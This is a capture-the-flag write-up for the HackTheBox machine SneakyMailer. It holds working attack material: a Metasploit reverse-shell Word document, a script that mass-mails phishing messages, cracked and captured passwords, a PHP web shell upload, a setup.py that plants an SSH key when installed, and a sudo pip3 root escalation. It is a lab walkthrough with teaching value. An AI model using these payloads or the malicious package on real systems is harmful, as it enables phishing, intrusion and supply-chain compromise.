




# SneakyMailer

Author: Ewaël

**SneakyMailer** is a medium HackTheBox box by sulcud.

`nmap -sC -sV -oN nmap 10.10.10.197 -v -A` shows a lot of open ports:

```
Discovered open port 80/tcp on 10.10.10.197
Discovered open port 8080/tcp on 10.10.10.197
Discovered open port 21/tcp on 10.10.10.197
Discovered open port 22/tcp on 10.10.10.197
Discovered open port 25/tcp on 10.10.10.197
Discovered open port 143/tcp on 10.10.10.197
Discovered open port 993/tcp on 10.10.10.197
```

I start with some enumeration on port 25 `smtp | Postfix smtpd` because the ftp does not allow anonymous access. I use `auxiliary/scanner/smtp/smtp_enum` on metasploit:

```
msf5 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.10.197:25       - 10.10.10.197:25 Banner: 220 debian ESMTP Postfix (Debian/GNU)
[+] 10.10.10.197:25       - 10.10.10.197:25 Users found: , _apt, avahi-autoipd, backup, bin,
    daemon, ftp, games, gnats, irc, list, lp, mail, man, messagebus, news, nobody, postfix,
    postmaster, proxy, sshd, sync, sys, systemd-coredump, systemd-network, systemd-resolve,
    systemd-timesync, uucp, www-data
[*] 10.10.10.197:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

That could be useful later fort the ftp or ssh connections if I find a password. Note that this could have also been done using `smtp-user-enum -M VRFY -U /usr/share/wordlists/fern-wifi/common.txt -t 10.10.10.197`.

Let's explore ports 80 and 8080 now:



This just gives the nginx server version, which is not old enough to be exploitable. I have to add `10.10.10.197    sneakycorp.htb` in `/etc/hosts` to access the website.



First of all, I do find an interesting line in the source code:

```html
<!-- need to add Register link to Sidebar for /pypi/register.php -->
```

But the registration page is useless:


Then, the team page contains everyone's mails and names.



I do have some messages because I am connected as an employee:

```html
<div class="text-truncate">Hello! I am the owner of the company, you are going to report to me now on</div>
<div class="small text-gray-500">Cara Stevens · 2w</div>
```

This `Cara`could be my entry point, and I have her mail address. Considering the box name, I could try some phishing on her mail address `carastevens@sneakymailer.htb`.

My first idea is to send her a fake word document that would be a hidden reverse shell. Let's use metasploit to create this payload.

```
> use exploit/windows/fileformat/office_word_hta
> set SRVHOST 10.10.14.15
> set payload generic/shell_reverse_tcp
> set LHOST 10.10.14.15
> run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.15:4444
[+] msf.doc stored at /root/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.15:8080/default.hta
[*] Server started.
```

Start the listener and send the mail with swaks.

```
swaks --to carastevens@sneakymailer.htb --server 10.10.10.197 --attach /root/.msf4/local/msf.doc
```

Aaand... No response. Even with a more realistic mail.

```
swaks --to sulcud@sneakymailer.htb --from it@sneakymailer.htb --header "Subject: Modules" --body "Here is what you asked" --server 10.10.10.197 --attach /root/.msf4/local/msf.doc
```

Instead of targeting the site's owner, I could send the infected mail to everyone. Let's create my list:

```
cewl -n -e -w mails -v http://sneakycorp.htb/; cat mails | grep @ > mails
```

I decide to write a short python script to automate the process:

```python
#!/usr/bin/env python3

import os

mails = open("mails", "r")
for mail in mails:
    mail = mail[:-1]
    print("[+] Sending mail to " + mail)
    os.system("""swaks --to {} --from it@sneakymailer.htb --header "Subject: Modules" --body "Here is what you asked" --server 10.10.10.197 --attach /root/.msf4/local/msf.doc""".format(mail))
    print("[+] Email sent")
```

But it still does not work. Before trying something else I decide to replace my payload by a simpler `http://10.10.14.15` and to open a server on port 80 to see if I receive any interesting connection, aaand I do!

```
listening on [any] 80 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.197] 51824
POST / HTTP/1.1
Host: 10.10.14.15
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Decoding the body returns

```
firstName=Paul
lastName=Byrd
email=paulbyrd@sneakymailer.htb
password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

Now I can access `Paul`'s mailbox with his creds. I use Evolution to do so.

```
Hello administrator, I want to change this password for the developer account

Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

Please notify me when you do it
```

The password does not work for the ssh authentification, but I can now use the ftp access. I find the same pages as on the website. Let's upload a reverse shell with `put shell.php`. I set up my listener and I access `http://sneakycorp.htb/shell.php` but the page does not exist.

Some Googling later I see this could be related to finding the correct DNS. I decide to fuzz it using [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists).

```
wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host:FUZZ.sneakycorp.htb" -u http://10.10.10.197/ -t 50 -c --hc 400,301
```

It quickly finds `dev.sneakycorp.htb` that I add to `/etc/hosts` too. I upload my shell again and I access `http://dev.sneakycorp.htb/shell.php` to spawn a shell as `www-data`.

`su developer` with `m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C` works but I'm still not the user. I find `.htpasswd` in `/var/www/pypi.sneakycorp.htb`:

```
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

`john --wordlist=/usr/share/wordlists/rockyou.txt pypi_hash` easily cracks it: `pypi:soufianeelhaoui`. Even if I can't `su pypi` with this password, I can now access `http://pypi.sneakycorp.htb:8080` and log as `pypi`:



This means `pypi` can install any python package without any verification. Let's add my public ssh key to `/home/low/.ssh/authorized_keys`. To do so, I follow [https://packaging.python.org/tutorials/packaging-projects/#creating-setup-py](https://packaging.python.org/tutorials/packaging-projects/#creating-setup-py) and [https://pypi.org/project/pypiserver/#upload-with-setuptools](https://pypi.org/project/pypiserver/#upload-with-setuptools)

Here is my `.pypirc`:

```
[distutils]
index-servers =
  local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

This will allow me to install any package I want as if I was `pypi` on the machine. Here is the actual infected package:

```python
#!/usr/bin/env python3

import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        f.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDGbW8n6UnKz9p9e7GBa/8tgjwSL7NTUI7TEDxmZtRR54RwDNADqbh7eoDzxIImaJCvFO9RgYQEwEtaNOyINePp0ecTZMpFoXqp0KB3CvW0cYhChs1U4DHiL4JwOpyH86lOjEyBvbt3XI9udqqMeOez91iTgMO+o2EX/m4+8l59AfHLOrcjrNKR3ksaeceoRw4S4bXoYlATqqVRuLdggsZpr3Ava15yu46JeRSR3Fpud1YEwxqqmGKeVuTU2RzmKRrn02PcuSXTAsyYr3CkScDDcrYczFwOPHA1eBuNFECDklpAPXXHFj3pooQRvYBGkRNwXMxhvg3r/v6D9YXycy19TNpOHXIZtef2pGPGj2xDEjQmo/dwFNujQHuDEXPttUWJ7lISOO9qiPHGz3bxCHO+3+2FNuGwaqgZZXl6lK9wVRbOpzR36jWRhZYWSms/vPxaJOMX6ok79iuV3wX8t1FyvBEfwPkYET02hR4goMigpuvSfQdYioLYrDjnSqDZWqc= root@kali")
except Exception as e:
    pass

setuptools.setup(
    name="infected_pgk_PYPI", # Replace with your own username
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires='>=3.6',
)
```

I import both files in a `/tmp/infected_pkg` folder and I install the package locally:

```
python3 setup.py sdist register -r local upload -r local
```

I can now `ssh low@10.10.10.197` and get my user flag:

`983fb2d67f2c91f31ea792aca1acb7d8`

Let's `sudo -l` to check if there's anything I could exploit:

```
$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

There it is, a quick look at [GTFOBins](https://gtfobins.github.io/) gives me my root flag:

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip3 install $TF
```

`6953f14fd8d464ddd3e7e1cf44865207`
